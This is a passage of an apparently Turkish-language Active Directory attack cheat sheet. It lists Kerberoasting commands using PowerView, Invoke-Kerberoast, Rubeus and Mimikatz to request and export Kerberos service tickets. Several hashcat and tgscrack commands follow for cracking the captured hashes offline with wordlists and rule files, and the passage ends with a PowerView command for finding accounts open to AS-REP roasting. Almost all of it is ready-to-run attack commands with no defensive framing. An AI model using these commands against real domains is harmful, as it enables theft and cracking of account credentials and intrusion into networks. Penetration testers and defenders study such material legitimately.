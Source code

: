 #### PowerView Kullanarak:
```powershell
Request-SPNTicket
```

#### Invoke-Kerberoast Kullanarak:
```powershell
Import-Module .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -OutputFormat Hashcat
```

#### Rubeus Kullanarak:
```powershell
.\Rubeus.exe kerberoast /domain:steins.local /user:username /format:hashcat /outfile:hash.txt
```

#### Mimikatz Kullanarak Bellekten Diske Aktarma:
```powershell
Invoke-Mimikatz -Command '"Kerberos::list /export"'
```

### Hash Kırma

#### Hashcat Kullanarak:
```bash
hashcat -m 13100 -a 0 ticket.hashcat /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/T0XlC-insert_space_and_special_0_F.rule --force
```
veya
```bash
hashcat -a 0 -m 13100 ticket.hashcat /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/d3ad0ne.rule --force
```
veya
```bash
hashcat -a 0 -m 13100 hash ~/Downloads/Tools/rockyou.txt -r /usr/share/hashcat/rules/InsidePro-PasswordsPro.rule --force
```
veya
```bash
hashcat -m 13100 krb5t_hash rockyou.txt --force
```
veya
```bash
python tgscrack.py wordlist.txt hash.txt
```

### Hedefli Kerberoasting - AS-REP Roasting

#### Adımları:

**1. PreAuth Gerekmeyen Kullanıcıları Bulma**

#### PowerView Kullanarak:
```powershell
Get-DomainUser -PreauthNotRequired -Verbose
```
